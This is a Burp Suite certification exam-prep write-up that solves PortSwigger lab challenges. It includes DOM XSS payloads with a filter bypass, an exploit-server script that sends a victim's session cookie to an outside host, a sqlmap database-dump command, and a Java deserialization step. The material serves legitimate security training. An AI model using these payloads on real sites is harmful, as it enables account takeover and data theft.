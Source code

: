 # Burp Suite Certified Practitioner Exam Preparation Walkthrough

---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Welcome to my new write-up!
header:
  image: /assets/images/post1/image.png
  teaser: /assets/images/post1/teaser.png

excerpt: "A unique line of text to describe this post that will display in an archive listing and meta description with SEO benefits."
---


### **EXAM PREP**

**1/3: XSS**

DOM XSS in lookup function :

When the app is launched we immediatly see the search bar, what I always try is for XSS. 
I use the “Untrusted types” on Chrome. 

I put something in search and click on “search”

![untrusted.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/untrusted.png)

By referring to DOM XSS labs on Portswigger, we see that there are 2 DOM XSS payloads who can work here : 

```jsx
\\"-alert(1)}//
or
"-alert(1)-"
```

XSS can be used to steal cookies of other users, then we need to try : 

```jsx
\\"-alert(document.cookie)}//
```

But no luck : 

![XSS blocked.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/XSS_blocked.png)

We need to find a bypass and I found on the internet that we can bypass it by using : 

```jsx
\\"-alert(window["document"]["cookie"])}//
```

![XSS Bypassed.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/XSS_Bypassed.png)

Now that we have the good payload we have to construct a payload with the exploit server link :

Add this code in exploit-server and 

```jsx
<script>

location='https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-0a6d00a40340d487c0a03af7016a000c%252eexploit-server%252enet%2F%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';

</script>
```

![Capture d’écran 2023-02-03 à 14.05.12.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Capture_decran_2023-02-03_a_14.05.12.png)

We just have to replace the session cookie to have access to Carlos account. 

**2/3 SQL Injection**

We have access to a new feature : 

![AdvancedSearch.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/AdvancedSearch.png)

We see a parameter ⇒ sorted-by vulnerable to SQLi

![VulnParam.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/VulnParam.png)

I launched the sqlmap command below : 

```jsx
sqlmap -u "[https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*](https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*)" --cookie="_lab=46%7cMCwCFAuZTmvz13aVBBW1bpQM25dE2RVNAhRq8fmJk1vCl2i8uauGpq2N%2bIytqdEsQkFl0b%2b8pNzF%2f4p3No1yF19zA%2bj3GuVuecfTlUlSWFGu7SfWBmEz6Mu0JEWnJg5r4GggAibBFB9QtX0gMd%2fLhfFCfcTKNJtOaZ4mGvaUex6vw3k%3d; session=F8UksvHTO0lwQgGckaeEpePsgEJQTvs2" --dump
```

![SQLi result.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/SQLi_result.png)

Now time to visit admin-panel and see what’s the next bug ! 

**3/3** ****DESERIALIZATION:****

Using Burp Scanner we can see that admin_pref are vulnerable :

![Launch Scan.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Launch_Scan.png)

![Burp Scan.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Burp_Scan.png)

Using Deserialization Scanner plugin on Burp gave me these informations : 

![JavaDeserialization.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/JavaDeserialization.png)

Once the payload is generated and the request sent, we can go back to Burp Collaborator to see if we have a ping back : 

![Solution.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Solution.png)

BINGO ! We have then finished the lab. 

I hope you enjoyed reading this article as much as I enjoyed writing it.
